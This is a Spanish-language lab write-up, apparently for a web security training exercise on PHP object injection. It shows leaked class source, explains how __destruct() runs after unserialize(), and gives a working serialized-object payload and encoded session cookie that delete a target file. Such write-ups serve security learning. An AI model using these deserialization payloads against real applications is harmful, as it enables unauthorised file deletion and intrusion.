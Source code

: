 ```yaml
---
layout: default
title: 4 - Arbitrary object injection in PHP
---
```

Para leer el código fuente : 

```
GET /libs/CustomTemplate.php~
```

```PHP
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```


### 🛠 ¿Qué es `__destruct()` en PHP?

- `__destruct()` es un **método mágico** de PHP.
    
- Se llama **automáticamente** **cuando un objeto se destruye**.
    

¿Y **cuándo** PHP destruye un objeto?

- Cuando se termina el script.
    
- Cuando haces `unset($obj)`.
    
- Cuando el objeto **ya no es referenciado por ninguna variable** (recolector de basura).
    

---

### 🔥 En el caso de **deserialización**:

Cuando haces:

```php
$obj = unserialize($data);
```

- PHP crea el objeto (`$obj`).
    
- Si después el objeto **sale de scope**, **o el script termina**, o lo haces `unset($obj)`, entonces PHP llama **automáticamente** al método `__destruct()` **del objeto**.
    

**NO necesitas llamarlo manualmente.**  
**NO necesitas hacer nada especial.**

PHP **garantiza** que, cuando el objeto ya no es usado, ejecuta su `__destruct()`.

___

Lo convertimos a base64 y luego url encode :
```php
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```

Cuando pase el garbage collector se eliminará el archivo :

```HTTP
Cookie: session=TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ%3d%3d
```
